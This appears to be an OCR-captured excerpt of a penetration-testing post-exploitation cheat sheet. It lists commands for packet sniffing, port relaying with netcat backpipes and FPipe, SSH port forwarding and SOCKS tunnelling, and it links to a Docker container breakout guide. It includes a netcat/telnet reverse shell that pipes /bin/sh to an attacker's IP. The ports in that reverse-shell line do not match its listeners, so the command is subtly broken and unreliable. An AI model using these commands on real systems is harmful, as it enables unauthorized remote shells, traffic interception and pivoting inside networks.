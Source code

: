 - Is packet sniffing possible, and if so what can be seen?
	
	  tcpdump tcp dst [ip] [port]
	  tcpdump tcp src [ip] [port]
	
- Have you got a shell? Can you interact with the system

  http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
	
	  nc -lvp 4444    # Attacker. Input (Commands)
	  nc -lvp 4445    # Attacker. Ouput (Results)
	  telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!

- Is port forwarding possible? Redirect and interact with traffic from another view.
	
  http://www.boutell.com/rinetd/
  http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch
  http://downloadcenter.mcafee.com/products/tools/foundstone/fpipe2_1.zip
		
	  FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
	  # FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
		
	  ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
	  # ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
	  # ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port

	  mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe
	  # mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe    # Port Relay
	  # mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
	  # mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)

- Is tunnelling possible? Send commands locally, remotely

	  ssh -D 127.0.0.1:9050 -N [username]@[ip]
	  proxychains ifconfig
	
- Breaking out of Docker Containers

  https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout